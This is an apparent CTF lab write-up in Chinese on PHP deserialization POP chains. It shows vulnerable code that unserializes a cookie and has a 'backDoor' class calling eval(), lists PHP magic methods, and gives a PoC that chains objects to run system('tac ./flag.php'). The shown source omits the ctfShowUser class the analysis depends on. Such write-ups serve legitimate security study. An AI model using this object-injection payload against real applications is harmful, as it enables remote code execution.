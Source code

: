 ```php
class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

初涉pop链，先认识一些常见的魔法函数（具体可以看y4师傅的这篇[PHP反序列化总结_Y4tacker](https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5501)）

```php
__wakeup() 		//执行unserialize()时，先会调用这个函数
__sleep() 		//执行serialize()时，先会调用这个函数
__destruct() 	//对象被销毁时触发
__call() 		//在对象上下文中调用不可访问的方法时触发
__callStatic() 	//在静态上下文中调用不可访问的方法时触发
__get() 		//用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() 		//用于将数据写入不可访问的属性
__isset() 		//在不可访问的属性上调用isset()或empty()触发
__unset() 		//在不可访问的属性上使用unset()时触发
__toString() 	//把类当作字符串使用时触发
__invoke() 		//当尝试将对象调用为函数时触发
```

分析：

入口在ctfShowUser->login函数，要求username和password和传入的一样，序列话不给值的话传啥都可以

当该对象被销毁时触发class->getinfo()，下面两个类都有getinfo，backDoor存在eval

那么：

1. ctfShowUser->class=new backDoor()
2. backDoor->code=要执行的命令

poc：（不设定username和password的话传什么都可以）

```php
<?php

class ctfShowUser{
    private $class;
    public function __construct(){
        $this->class=new backDoor();
    }
}

class backDoor{
    private $code="system('tac ./flag.php');";
}

$a = new ctfShowUser();
```
